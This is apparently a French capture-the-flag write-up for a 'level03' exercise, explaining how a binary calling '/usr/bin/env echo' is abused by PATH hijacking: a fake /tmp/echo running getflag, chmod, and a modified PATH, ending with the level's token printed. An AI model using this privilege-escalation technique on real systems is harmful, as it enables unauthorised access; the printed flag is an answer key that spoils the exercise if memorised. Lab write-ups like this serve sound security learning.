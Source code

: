 # Explications
Il y a un executable level03, lorsqu'on l'execute, ca nous affiche **Exploit me**

En faisant strings level03, ca nous affiche pas mal de chose dont : `/usr/bin/env echo Exploit me`
A un moment, ca appelle le binaire de echo pour afficher Exploit me.

On va créer un faux echo et lui faire utiliser getflag a la place de echo.

D'abord on cree le faux echo dans /tmp

    echo "/bin/sh -c 'getflag'"> /tmp/echo
On donne les droits a notre echo

    chmod 755 /tmp/echo
On ajoute notre echo dans le PATH

    export PATH=/tmp:$PATH
On execute level03 et on a notre token: **qi0maab88jeaj46qoumi7maus**
